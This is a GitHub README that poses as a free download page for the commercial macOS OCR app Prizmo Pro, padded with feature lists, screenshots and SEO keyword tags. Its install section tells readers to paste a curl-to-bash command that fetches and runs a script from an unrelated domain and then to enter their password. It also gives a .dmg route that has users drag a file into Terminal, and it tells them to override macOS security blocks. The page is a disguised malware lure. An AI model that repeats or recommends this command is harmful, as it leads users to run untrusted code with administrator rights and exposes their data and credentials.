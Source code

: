 <p align="center">
  <img src="https://i.ibb.co/W4QgD2sP/1608731887-prizmo.png" width="350" alt="Prizmo Pro macOS Banner" />
</p>

<h1 align="center">Prizmo Pro for macOS</h1>

<p align="center">
  📄 OCR and scanning powerhouse. Convert images, PDFs, and documents into searchable, editable text in over 20 languages.  
  <br><br>
  ✅ Works Offline – Apple Silicon Ready  
  ✅ Supports macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/255" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20PRIZMO%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Prizmo Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/gM91DdbQ/1608732495-1.png" alt="Prizmo OCR UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Prizmo Pro for macOS?

**Prizmo Pro** is a macOS-native OCR (Optical Character Recognition) and scanning utility designed for professionals, students, and anyone working with physical documents. Scan paper documents, import PDFs or photos, and instantly convert them into fully editable and searchable text.

Prizmo Pro supports over 20 languages, offers voice output, and works offline — making it ideal for personal document archiving, form digitization, or quick content extraction from snapshots.

---

## ✅ Why Choose Prizmo Pro?

- 🔍 **Real-Time OCR for Images & PDFs**  
- 🗂️ **Batch Scan and Document Management**  
- 🌐 **Multilingual OCR (20+ Languages)**  
- 📤 **Export to TXT, PDF, RTF, DOCX & More**  
- 🧠 **Text-to-Speech Support Built-In**  
- 🧾 **Smart Layout Detection for Complex Docs**  
- 🍎 **Native M1/M2/M3 Apple Silicon Support**  
- 🔒 **All Processing Happens Locally**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/4nFb9vZV/1608732544-2.png" alt="Prizmo Batch Document Scanner Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/d0BCymQF/1608732581-3.png" alt="Multilingual OCR Settings Panel" />
</p>

---

## 🚀 Key Features

- Optical Character Recognition (OCR)  
- Scanner and camera input  
- Batch document processing  
- Built-in text-to-speech  
- Advanced layout analysis  
- Works with PDFs and images  
- Offline processing, no cloud required  
- Export to multiple editable formats

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Prizmo Pro manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/OCR-Image+PDF+Text+Export-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Prizmo Pro – Scan. Convert. Archive.

Thanks for using **Prizmo Pro for macOS**.  
Digitize paper into searchable files — instantly and securely.

---

## 🧭 Usage Context

Prizmo Pro is fully offline and private.  
Ideal for professionals, researchers, students, or remote workers.  
Use it for digitizing contracts, notes, invoices, or books — no cloud needed.

---

## 🔍 Tags

```text
prizmo pro mac download, ocr pdf mac editable text, scan to searchable pdf macos, convert image to text mac offline, best mac ocr app for documents, prizmo ocr for apple silicon, text recognition software macbook, batch document scanning utility mac, multilingual ocr app for mac m1 m2, extract text from scanned files mac, prizmo export text pdf docx macos, mac document digitization software, secure ocr tool for macos sonoma, image to editable document app mac, prizmo pro offline ocr full version
